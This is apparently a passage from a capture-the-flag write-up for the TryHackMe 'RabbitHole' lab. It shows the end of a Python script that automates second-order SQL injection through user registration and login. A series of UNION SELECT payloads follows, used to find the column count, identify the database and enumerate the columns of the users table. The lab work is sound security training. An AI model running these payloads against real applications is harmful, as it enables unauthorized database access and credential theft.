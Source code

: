 ```python
    payload = sys.argv[2]

    print(f"[+] Creating user with payload: {payload}")
    if create_user(ip, payload):
        print("[+] User created successfully. Attempting login...")
        response_text = login_user(ip, payload)
        print("[+] Login response:")
        print(response_text)
    else:
        print("[-] Failed to create user. Check the payload or connection.")

if __name__ == "__main__":
    main()
```

We will use our script to find the number of columns expected.

```
python3 auto_sqli.py IP_ADDRESS '" UNION SELECT 1; --'
```

![Second Order SQLi test](/images/THM-RabbitHole/S_SQLi_test.png)

We can read the error message `SQLSTATE[21000]: Cardinality violation: 1222 The used SELECT statements have a different number of columns`.

Let's increment the number of columns with the following payload.

```
python3 auto_sqli.py IP_ADDRESS '" UNION SELECT 1, 2; --'
```

![Second Order SQLi test2](/images/THM-RabbitHole/S_SQLi_test2.png)

This payload works, confirming that **2** columns are expected.

It will be good to know which database we are currently working with.

```
python3 auto_sqli.py IP_ADDRESS '" UNION SELECT 1, database(); --'
```

> If at any point you notice that the IP address is different, it's because I had lost some of the screenshots and I had to go back and retake them.

![Second Order SQLi test2](/images/THM-RabbitHole/current_DB.png)

We are currently in the `web` database, now we list its tables.

![web database content](/images/THM-RabbitHole/S_SQLi_enum.png)

We discover two tables `users` and `logins`, the first one seems interesting.

```
python3 auto_sqli.py IP_ADDRESS '" UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name="users" AND table_schema=DATABASE(); --'
```
